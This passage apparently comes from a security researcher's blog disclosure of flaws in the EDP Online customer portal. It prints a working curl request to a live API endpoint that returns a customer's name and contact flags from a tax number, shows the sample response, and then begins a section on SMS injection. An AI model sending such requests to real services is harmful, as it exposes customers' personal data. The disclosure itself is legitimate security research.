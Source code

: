 The request needed to exploit this was:

{% highlight shell %}
curl -X POST \
  https://edponline.edp.pt/api/v2/contract/getContractsToAssociate \
  -H 'cookie: PHPSESSID=YOUR_SESSION' \
  -d '{
          "category": "contract",
          "operation": "getContractsToAssociate",
          "Body": {
              "Nif": "123456789",
              "CPE_CUI": "VALID_CPE_CUI",
              "CIL": null,
              "ContractID": null
          }
      }'
{% endhighlight %}

The response also revealed some extra information about the account:

{% highlight javascript %}
{
    "Header": {"errorStatus": null, "errorMsg": null, "Status": null},
    "Body": {
        "Result": {
            "list": [{"Company": "pt.edp.edponline.company.EDPSU"}],
            "found": true,
            "nifHasContacts": false,
            "nifHasEmail": true,
            "nifHasPhone": true,
            "nifHasEDPOnlineRegister": false,
            "name": "JANE ROE",
            "nif": "123456789",
            "previousAuthorizationWaitingApproval": false
        },
        "Success": true
    }
}
{% endhighlight %}


## SMS Injection

Another neat feature that's available from the platform is the ability to get an SMS message with the latest payment details.

{% include image.html path="edp/sms.png"
   alt="EDP Online SMS feature." caption-no="4" caption="EDP Online SMS feature."
%}

Clicking `Enviar dados via SMS (serviço grátis)` will display a prompt requesting the phone number where the information should be sent to.

{% include image.html path="edp/sms-dialog.png"
   alt="EDP Online SMS dialog." caption-no="5" caption="EDP Online SMS dialog."
%}

